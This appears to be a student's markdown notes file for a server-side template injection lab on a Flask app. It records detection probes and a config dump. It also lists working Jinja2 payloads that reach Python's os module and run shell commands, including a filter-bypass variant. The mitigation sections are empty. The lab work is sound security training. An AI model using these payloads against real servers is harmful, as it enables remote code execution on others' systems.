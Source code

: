 # Assignment Notes - SSTI Lesson

Use this file to track your progress through each assignment.  
You can record observations, payloads, successes, errors, and bypass techniques.

---

## Assignment 01 - Discovering and Exploiting SSTI

- **Tested Payloads**:
  - {{ 7*7 }}
- **Server Behavior**:
  - 49
- **Confirmed Vulnerability**:
  - yes
- **Tested Payloads**:
  - {{ 7*"7" }}
- **Server Behavior**:
  - 7777777
- **Confirmed Vulnerability**:
  - yes
- **Tested Payloads**:
  - {{ 7>4 }}
- **Server Behavior**:
  - True
- **Confirmed Vulnerability**:
  - yes
- **Tested Payloads**:
  - {{ config.items() }}
- **Server Behavior**:
  - dict_items([('DEBUG', True), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('SECRET_KEY_FALLBACKS', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('TRUSTED_HOSTS', None), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_PARTITIONED', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('MAX_FORM_MEMORY_SIZE', 500000), ('MAX_FORM_PARTS', 1000), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('PROVIDE_AUTOMATIC_OPTIONS', True)])!
- **Confirmed Vulnerability**:
  - yes
---

## Assignment 02 - Advanced Payloads and Bypassing Filters

- **Advanced Payloads Used**:
  - {{ ''.__class__.__base__.__subclasses__() }}
  - {{ self.__init__.__globals__.__builtins__ }}
  - {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
  - {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('ls').read()}}{%endif%}{%endfor%}
- **Accessed Internal Objects**:
  - Found 'config' object through {{ config }} payload
  - Found 'cycler', 'joiner', and 'namespace' available and inspected its __globals__
  - Accessed os module via config.__class__.__init__.__globals__['os']
- **Command Execution Achieved**:
  - ls, id

---

## Assignment 03 - Mitigating SSTI Vulnerabilities

- **Changes Made to Flask App**:
  - 
- **Testing Results**:
  - 
- **Mitigation Explanation**:
  - 

---

## Bonus Challenge - No Braces Allowed

- **Non-Brace Payload Attempts**:
  - 
- **Successes and Failures**:
  - 
- **Creative Techniques Explored**:
  - 

---

## General Notes and Ideas

- 

